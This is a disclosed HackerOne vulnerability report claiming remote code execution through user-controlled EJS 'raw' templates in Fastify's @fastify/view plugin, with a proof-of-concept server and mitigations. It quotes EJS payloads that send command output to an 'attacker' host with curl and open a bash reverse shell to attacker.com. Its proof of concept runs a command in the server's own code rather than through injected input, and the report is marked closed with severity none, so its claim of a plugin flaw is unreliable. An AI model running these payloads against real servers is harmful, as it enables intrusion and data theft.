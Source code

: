 # Remote Code Execution via unsafe usage of `reply.view({ raw })` in @fastify/view (EJS template engine)

## Report Details
- **Report ID**: 3122019
- **URL**: https://hackerone.com/reports/3122019
- **State**: Closed
- **Severity**: none
- **Submitted**: 2025-05-01T15:15:25.581Z
- **Disclosed**: 2025-05-28T16:56:06.578Z

## Reporter
- **Username**: oblivionsage
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: fastify

## Vulnerability Information
The `@fastify/view` plugin, when used with the EJS engine and the `reply.view({ raw: <user-controlled-string> })` pattern, allows arbitrary EJS execution. This leads to Remote Code Execution (RCE) when an attacker can control the `raw` content passed to the view renderer.

This vulnerability arises from the fact that Fastify trusts the raw template string without sanitization or restrictions when passed directly to EJS's `compile()` method.



## Steps To Reproduce:

### Step 1: Setup the environment

Create a new directory and initialize a simple Fastify server:

```bash
mkdir fastify-rce-poc && cd fastify-rce-poc
npm install fastify @fastify/view ejs
```
Screenshot:`Screenshot_1.png`
{F4305587}

###Step 2: Create a vulnerable Fastify server

Create a file called `server.js` with the following code:
```javascript
const fastify = require('fastify')();
const view = require('@fastify/view');
const ejs = require('ejs');
const { execSync } = require('child_process');

fastify.register(view, {
  engine: { ejs }
});

fastify.get('/', async (req, reply) => {
  const result = execSync('id').toString(); // RCE 
  const template = `<pre>${result}</pre>`;
  return reply.view({ raw: template });
});

fastify.listen({ port: 3000 }, err => {
  if (err) throw err;
  console.log('Listening on http://localhost:3000');
});

```
Screenshot:`Screenshot_2.png`
{F4305628}


###Step 3: Start the server

```bash
node server.js
```

Terminal showing  Fastify  running at `localhost:3000`

Screenshot:`Screenshot_3.png`
{F4305610}

###Step 4: Access the endpoint

Visit `http://localhost:3000` in the browser.

You will see the output of the `id` command rendered in the page, proving Remote Code Execution:

```bash
uid=1000(nullprophet) gid=1000(nullprophet) groups=...
```

Screenshot:`Screenshot_4.png`

{F4305638}

###  Security Misconfiguration Analysis:

The vulnerability is not just an EJS engine misuse but also stems from a broader category of insecure default usage. Fastify allows `raw` template injection with no warning, which bypasses typical protections like template sandboxing. In production systems, such behavior is highly discouraged.

This misconfiguration may go unnoticed during code review unless explicitly tested for dynamic rendering vectors.


###  Real-world Exploitation Scenario:

Assume an API endpoint exists like:

```js
fastify.post("/render", async (req, reply) => {
  return reply.view({ raw: req.body.content });
});
```

An attacker can craft a payload like:

```js
<%= require("child_process").execSync("curl http://attacker:8080/`id`") %>
```

This would leak command output over HTTP to an external attacker, bypassing firewall and runtime monitoring.

Such injection can happen via:

User-submitted blog content

Email templates

File uploads interpreted as raw templates

## Impact

###  Impact:

This vulnerability allows Remote Code Execution (RCE) when using the `@fastify/view` plugin with the EJS engine and providing a user-controlled `raw` template input.

Any attacker who can influence or inject unescaped EJS payloads into the template rendering logic (e.g., through user input passed into `reply.view({ raw })`) can fully execute arbitrary OS commands on the server. This leads to:

- Full system compromise
- Data exfiltration or destruction
- Lateral movement to other services
- Reverse shell and persistent access

In a real-world scenario, if an endpoint renders user-controlled data as `raw` templates (for instance, rendering emails, comments, or filenames), it can be weaponized to achieve full RCE.

This issue is critical because:
- There is **no input sanitization** when using `raw` template objects.
- It directly calls `ejs.compile()` on attacker-controlled input.
- Renders and executes malicious payloads on the server.

```ejs
<%= require("child_process").execSync("id").toString() %>
```

If exploited in production, an attacker could trigger `curl`, `wget`, or even drop reverse shells:
```ejs
<%= require("child_process").execSync("bash -i >& /dev/tcp/attacker.com/4444 0>&1") %>
```

###  Recommendation:

To mitigate this vulnerability:

- Avoid using `reply.view({ raw })` with any user-controllable content.
- Enforce strict template loading from file-based templates only.
- Sanitize or validate the content before passing it to the `ejs.compile()` method.
- Disable or restrict usage of dynamic `raw` templates in production environments.
- Consider switching to safer rendering strategies or use a template engine with built-in sandboxing.

Fastify could also introduce warnings or protective logic when `raw` templates are used in combination with untrusted data.

## Attachments
- Screenshot_1.png
- Screenshot_3.png
- Screenshot_2.png
- Screenshot_4.png
